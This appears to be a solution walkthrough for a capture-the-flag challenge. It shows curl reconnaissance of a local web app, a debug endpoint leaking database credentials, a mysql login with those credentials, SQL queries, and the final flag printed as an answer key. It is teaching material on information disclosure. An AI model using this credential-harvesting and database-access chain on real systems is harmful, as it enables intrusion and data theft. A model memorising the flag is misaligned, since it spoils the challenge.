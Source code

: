 # CTF Challenge Solution Guide

## Overview
This document provides a complete walkthrough for solving the "Corporate Data Breach" CTF challenge. It demonstrates the step-by-step process that participants should follow to successfully capture the flag.

## Step 1: Initial Reconnaissance

Start by accessing the web application at http://localhost:8080

```bash
curl http://localhost:8080
```

Explore the available endpoints by checking the navigation links and testing common paths:

```bash
curl http://localhost:8080/info
curl http://localhost:8080/debug
curl http://localhost:8080/admin
```

## Step 2: Information Disclosure Discovery

The `/debug` endpoint reveals sensitive environment variables:

```bash
curl http://localhost:8080/debug
```

Expected output:
```
Environment Variables:
DB_HOST=10.1.2.20
DB_USER=webapp
DB_PASS=SecureP@ss123
DB_NAME=corporate_db
DEBUG_MODE=true
```

## Step 3: Database Access

Use the discovered credentials to connect to the database:

```bash
mysql -h 10.1.2.20 -u webapp -p'SecureP@ss123' corporate_db
```

## Step 4: Database Enumeration

List available tables:
```sql
SHOW TABLES;
```

Examine the customer_data table structure:
```sql
DESCRIBE customer_data;
```

## Step 5: Flag Extraction

Query the customer_data table to find the flag:
```sql
SELECT * FROM customer_data WHERE secret_notes LIKE 'CTF{%}';
```

The flag should be: `CTF{exposed_db_credentials_are_dangerous_123}`

## Alternative Discovery Methods

Participants might also discover the vulnerability through:
- Directory enumeration tools (dirb, gobuster)
- Web application scanners
- Manual testing of common debug endpoints
- Source code analysis (if available)

## Learning Points

This solution demonstrates:
1. The importance of proper environment variable management
2. Network segmentation failures
3. Information disclosure through debug interfaces
4. Database security misconfigurations
5. The attack chain from reconnaissance to data exfiltration

